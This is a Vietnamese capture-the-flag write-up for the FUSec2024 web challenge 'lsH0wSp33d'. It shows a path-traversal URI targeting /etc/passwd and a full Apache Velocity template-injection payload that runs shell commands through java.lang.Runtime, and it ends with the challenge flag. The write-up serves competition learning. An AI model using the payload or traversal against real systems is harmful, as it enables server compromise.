 # lsH0wSp33d

Bởi vì team mình là team có 3 người chơi forensics và 1 người chơi crypto. Vậy nên, bọn mình chỉ có thể solve được 1 bài web duy nhất

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/cd6bebfd-8409-48ef-bc99-a17d3e5520b9)

Ở đây, ta thử scan web xem có cái gì không. Sau khi scan ra, mình thấy 1 uri đáng ngờ là ``` /\..\..\..\..\..\..\..\..\..\etc\passwd ```

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/523df1d6-6667-4f46-9e74-1f619aded8a4)

Sau khi paste vào url thì mình thấy giao diện web không còn gì cả, không còn màu mè hoa lá

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/289d0c5b-5abb-461b-bebe-d3e3e86ebe1e)

Sau đó, mình thử bấm enter để search thì nó xuất hiện một dòng có vẻ như là vuln của web này ? Vì mình không học web mà chỉ là rẽ ngang nên không rõ lắm

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/11dfde2e-afea-4c66-affd-3c9645ad6e09)

Sau khi qua tìm hiểu, mình thấy rằng velocity là 1 Java-based Template. Vì thế nên, có thể sẽ có đoạn payload nào đó để inject vào trong cái bài này. Em google thử velocity payload shell script thì ra được đoạn payload là:

``` #set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output ```

``` https://github.com/epinna/tplmap/issues/9 ```

Lúc này, ta thử paste đoạn payload kia vào trong ô search keywords và ra được kết quả

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/eb95dc5e-0ff5-4370-a332-6f5455a559ef)

Flag: FUSec{v3l0c1ty_SSTI_1s_34sy_4s_h3ll}








